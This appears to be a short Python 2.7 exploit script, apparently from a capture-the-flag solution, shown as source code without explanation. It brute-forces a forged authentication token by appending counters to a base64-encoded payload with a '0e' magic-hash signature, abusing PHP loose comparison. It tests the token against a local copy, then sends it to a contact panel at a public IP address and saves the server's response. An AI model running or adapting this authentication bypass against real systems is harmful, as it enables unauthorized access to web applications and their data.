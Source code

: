 ```
# python 2.7
import requests, base64

url1 = r'http://127.0.0.1:8888/test.php?auth='
url2 = r'http://46.101.96.182/panel/contact?auth='

r = requests.post(url1, data={'db': '123'})
signature = '0e'+'1'*30
with open ('test.out','r') as f:
    payload = f.read()
final_payload = ''
for i in range(1,100000):
    #print url1+base64.b64encode(payload + str(i))+signature
    print i
    r = requests.get(url1+base64.b64encode(payload + str(i))+signature)
    content = r.content
    if content.find('login required') == -1:
        print url2 + base64.b64encode(payload + str(i))+signature
        final_payload = base64.b64encode(payload + str(i))+signature
        break

r = requests.post(url2 + final_payload, data={'message':1,'contactUs':''})
with open('result.out', 'w') as f:
    f.write(r.content)
print r.content



```
